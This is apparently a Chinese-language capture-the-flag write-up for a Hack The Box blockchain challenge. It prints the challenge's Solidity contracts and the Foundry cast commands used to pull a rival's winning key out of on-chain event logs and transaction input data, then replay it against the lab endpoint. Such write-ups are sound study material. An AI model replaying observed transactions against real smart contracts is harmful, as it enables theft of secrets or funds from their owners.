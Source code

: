 ```yaml
---
title: HTB Blockchain Challenge - Honor Among Thieves
date: {{ date }}
cover   : "/img/htb1.jpeg"
tags: Blockchain SmartContract Exploit
---
```


Honor Among Thieves
===
* Code - Setup.sol
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Rivals} from "./Rivals.sol";

contract Setup {
    Rivals public immutable TARGET;

    constructor(bytes32 _encryptedFlag, bytes32 _hashed) payable {
        TARGET = new Rivals(_encryptedFlag, _hashed);
    }

    function isSolved(address _player) public view returns (bool) {
        return TARGET.solver() == _player;
    }
}

```

* Code - Rivals.sol

```solidity=

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Rivals {
    event Voice(uint256 indexed severity);

    bytes32 private encryptedFlag;
    bytes32 private hashedFlag;
    address public solver;

    constructor(bytes32 _encrypted, bytes32 _hashed) {
        encryptedFlag = _encrypted;
        hashedFlag = _hashed;
    }

    function talk(bytes32 _key) external {
        bytes32 _flag = _key ^ encryptedFlag;
        if (keccak256(abi.encode(_flag)) == hashedFlag) {
            solver = msg.sender;
            emit Voice(5);
        } else {
            emit Voice(block.timestamp % 5);
        }
    }
}

```
#### 思路
* 可以看到在得到正確的key時，會有一個event，我們可以利用event來追蹤其他人成功解出key的transaction
* 如此一來只要重送Input data就可以解掉這題了


#### 解題過程
* 首先先查詢 foundryup的相關指令
* 會用到的指令有
* cast receipt
* cast logs
* 主要是透過 logs 有一個參數可以查詢 event topic
* topic 產生的方式是 function name + parameter type 的 keccak256
-> 所以我們可以得到event的hash
這邊就使用online tool 來計算即可
![image](https://hackmd.io/_uploads/SybAqi9OT.png)

* 取得包含這個topic的所有tx
`cast logs --from-block 1 --rpc-url http://159.65.20.166:31168/rpc 0x8be9391af7bcf072cee3c17fdbdfa444b42ad0d498941bcd0eb684da1ebe0d62
`
![image](https://hackmd.io/_uploads/Hy7fjoqOp.png)


* 發現 severity == 5 的 event
* TX HASH 是 `0x78ad7dc36a3de19a1606390ac2dc978f77fa5d253eda5e0c4219f69fe203929e`
* 檢視TX詳細內容 
* `cast receipt --rpc-url http://159.65.20.166:31168/rpc 0x78ad7dc36a3de19a1606390ac2dc978f77fa5d253eda5e0c4219f69fe203929e`
![image](https://hackmd.io/_uploads/Hksaoj5da.png)

* INPUT DATA  `0x52eab0fadff33a1b2c1b6333553e4e280f600886993e5469e05b4931c5c19c93fce7b58f`

* 這邊用 [input data decoder](https://lab.miguelmota.com/ethereum-input-data-decoder/example/ ) 來解析
* 要有 `Rivals.sol` 的 ABI
![image](https://hackmd.io/_uploads/r1aG3scu6.png)

* 可以知道 `_key` 就是 `0xdff33a1b2c1b6333553e4e280f600886993e5469e05b4931c5c19c93fce7b58f`

* 解題`cast send --rpc-url http://159.65.20.166:31168/rpc --private-key {{private key}} 0xaFB86492DD72903c3cE48761613cF3EB59dAde7d "talk(bytes32)"  0xdff33a1b2c1b6333553e4e280f600886993e5469e05b4931c5c19c93fce7b58f`
* 確認成功
* `cast call --rpc-url http://159.65.20.166:31168/rpc --private-key {{private key}} 0x3CBC547eE5EF958791108f27Fd541c88D9AB143E "isSolved(address)" 0x3c8abBf477294512FC9ba8F911a0aFC6868dd2AF`
![image](https://hackmd.io/_uploads/S16uhicOT.png)
